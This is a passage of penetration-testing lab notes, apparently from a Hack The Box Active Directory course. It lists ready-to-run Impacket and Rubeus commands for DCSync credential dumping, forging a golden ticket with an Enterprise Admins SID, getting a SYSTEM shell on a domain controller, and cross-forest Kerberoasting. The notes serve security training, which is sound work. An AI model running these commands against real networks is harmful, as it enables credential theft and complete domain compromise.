 DCSync with `secretsdump.py`: `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt`

* To get NT hash of `krbtgt` account.

SID Brute-forcing: `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240`

* Here, we specify the IP address of the DC in the child domain.
* This returns the SID of the domain, as well as the RIDs of the users. SIDs of users can be derived by appending RID to the end of SID (e.g., if SID of domain is `S-1-5-21-2806153819-209893948-922872689` and RID of `lab_adm` user is `1001`, then the user SID is `S-1-5-21-2806153819-209893948-922872689-1001`)
* However, our main interest here is the domain SID. `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"`

Likewise, we get SID of the Enterprise Admins group in the root domain by using the IP address of the root DC: `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`

Finally, we can use `ticketer.py` to generate golden tickets:
`ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker`

* Child domain SID is under `-domain-sid` option, Enterprise Admins group SID is under `-extra-sid` option

The ticket is saved as `ccache` file, which we set as our `KRB5CCNAME` environment variable:
`export KRB5CCNAME=hacker.ccache`

Finally, get a SYSTEM shell on the DC using this ticket:
`psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5`

We can also use `raiseChild.py` to automate the escalation of child to parent domain.

* Specify the target DC and credentials for an admin user in the child domain.
* `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm`

Running `secretsdump` on a specified user with golden ticket:
`secretsdump.py -k -no-pass logistics.inlanefreight.local/hacker@academy-ea-dc01.inlanefreight.local -just-dc-user bross -target-ip 172.16.5.5`

### Cross-Forest Trust Abuse from Windows

#### Kerberoasting

Cross Forest Kerberoasting can be useful to obtain credentials for an administrative user in another domain, with Domain/Enterprise Admin privileges in both domains.

Likewise, start off by enumerating accounts with SPNs:
`Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName`

* To enumerate the account membership, select `memberof` as well.

Then, Kerberoast the user with `Rubeus`, but pass in the `/domain` option:
`.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`
